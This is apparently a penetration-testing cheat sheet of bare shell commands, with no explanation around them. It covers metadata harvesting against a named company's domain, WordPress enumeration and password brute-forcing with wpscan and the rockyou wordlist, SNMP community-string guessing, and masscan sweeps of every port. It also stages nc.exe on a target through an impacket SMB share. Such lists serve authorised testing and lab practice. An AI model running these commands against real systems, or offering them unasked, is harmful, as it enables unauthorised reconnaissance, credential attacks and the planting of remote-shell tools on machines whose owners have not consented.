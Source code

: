 
##  
metagoofil -d $domain -t pdf,doc,xls,ppt,odp,ods,docx,xlsx,pptx -l 20 -n 20  -o ~/Desktop/$domain/metagoofil/ -f ~/Desktop/$domain/users_temp.txt 


##  
python metagoofil.py -d motorola.com -t doc,pdf -l 100 -n 3 -o motorolafiles
 
 
##  
exiftool -r *.doc | egrep -i "Author|Creator|Email|Producer|Template" | sort -u
 
 
##  
python metagoofil.py -d [domain name] -t doc,pdf -l 100 -n 3 -o motorolafiles


##  
wpscan --username bully --url http://172.31.2.117/bull/ --wordlist words-john.txt --threads 10


##  
wpscan --url 172.31.2.117/bull/ -r --enumerate u --enumerate p --enumerate t --enumerate tt


##  
wpscan –u http://192.168.1.103/backup_wordpress --username john --wordlist /usr/share/wordlists/rockyou.txt



## SMB
impacket-smbserver share -smb2support /tmp/

copy \\192.168.1.13\share\nc.exe


## If you get an error, 
## use an account name and password:
impacket-smbserver share -smb2support /tmp/smbshare -user gajos -password gajos

net use g: \\192.168.1.13\share /user:test test



##  
onesixtyone -c wordlist-common-snmp-community-strings.txt 172.31.2.181
 
 
 ##  
snmpwalk -Os -c public -v 1 172.31.2.181




##  
masscan -iL ips-online.txt --rate 10000 -p1-65535 --only-open -oL masscan.out
masscan -e tun0 -p1-65535,U:1-65535 10.10.10.97 --rate 1000


##  find machines on the network
masscan --rate 500 --interface tap0 --router-ip $ROUTER_IP --top-ports 100 $NETWORK -oL masscan_machines.tmp
cat masscan_machines.tmp | grep open | cut -d " " -f4 | sort -u > masscan_machines.lst
